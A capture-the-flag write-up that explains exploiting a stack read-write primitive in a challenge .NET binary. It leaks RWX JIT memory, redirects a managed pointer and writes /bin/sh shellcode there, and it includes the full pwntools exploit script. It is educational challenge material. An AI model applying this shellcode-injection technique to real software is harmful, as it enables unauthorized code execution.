

# Solution

Once the user reverses the myApp.exe he notices:
 - Its not the prettiest decompiled code, but the function is very simple
 - The loop never returns, the break out condition is never set
 - There are 32*3 8 byte intergers allocated on the stack

He should wonder what this is all about. Well, there are 4 operations that can be summerized to:
 1. P : Prints the content of the value pointed by p
 2. R : Resets the pointer back to the original address on the stack ( = start address of stack alloced space)
 3. I : Increases the pointer
 4. W : Writes hex encoded data (8 byte) to the memory pointed by the pointer

 Basically he gets a Read-Write Primitive on the CLR Stack. Quite cool. He should debug the app at his local machine and notice some RWX memory a few bytes after the stack alloc. Well, its the jitted code that gets called once the loop exits. There is also a "1" at the stack, representing the loop exit condition. He can exit the write loop writing 0x00 to this field. Futhermore (and by sure the hardest primitive to find) is the internal CLR managed pointer of the user controlled pointer on the stack (its not present in Release Mode, we got to use the Debug build). Placing the user controlled pointer on this pointer we can overwrite the address his pointer points to. So basically he got 6 things to do:
  1. Leak the Address of the RWX memory
  2. Set the user controlled pointer to the address of the CLR pointer pointing to the user controlled pointer
  3. Write the address of the RXW section to it (user controlled pointer points into this RXW memory now!)
  4. Write some shellcode using the write primitives
  5. Reset the Pointer to the original value using the "R" operation
  6. Write 0x00 to the loop condition, breaking out the loop and executing his written shellcode
  7. Profit

If he is lazy, he can brute force the offsets for step 1, 2 and 6. I did this since had many builds with different offsets. Screenshots:


To get the write address simply perform two write operations, it will crash with an invalid address written to:


The last thing to do is to write shellcode. Verify it via gdb:


Finally break the loop and enter the shell. Profit:


Code (not really cleaned up. It still contains the brute force operations for the offsets):
```python
from pwn import *

PROCESS_NAME = "./myApp"
ENV = {"LD_LIBRARY_PATH":"."}
SERVER = "localhost"
PORT = 1234

context.binary = PROCESS_NAME

if args.REMOTE:
	p = remote(SERVER, PORT)
else:
	p = process(PROCESS_NAME,env=ENV)
	#gdb.attach(p)

# Leak rwx memory
for i in range(0,113):
	p.sendlineafter("Input: ", "I")

p.sendlineafter("Input: ", "P")
rwxLeak = p.recvuntil("Input:").split("\n")
print rwxLeak

rwxLeak = int(rwxLeak[1]);
print "[+] RWX Leak: 0x%x " % (rwxLeak)

p.unrecv("Input: ")

#Reset pointer
p.sendlineafter("Input: ", "R")


#Set pointer to pointer location
'''
for i in range(0,400):
	print("Trying write offset: %d" % i)
	p.sendlineafter("Input: ", "I")
	p.sendlineafter("Input: ", "W")
	p.sendline("41414242")
	p.sendlineafter("Input: ", "W")
	p.sendline("43434343")
'''


for i in range(0,108):
	p.sendlineafter("Input: ", "I")

# Write rwx addr to pointer addr
p.sendlineafter("Input: ", "W")
p.sendline(hex(rwxLeak)[2:])

shellcode = asm(shellcraft.amd64.linux.sh())
shellcode = shellcode.ljust(len(shellcode) + 8-(len(shellcode) % 8), "\x90")


# Write shellcode ...
for i in range(0, len(shellcode),8):
	p.sendlineafter("Input: ", "W")
	p.sendline(shellcode[i:i+8][::-1].encode("hex"))
	p.sendlineafter("Input: ", "I")


# Reset pointer
p.sendlineafter("Input: ", "R")


# Set loop counter
for i in range(0,32):
	#print("Writing loop condition at: %d" % i)
	p.sendlineafter("Input: ", "I")

p.sendlineafter("Input: ", "W")
p.sendline("0")


p.interactive()
```
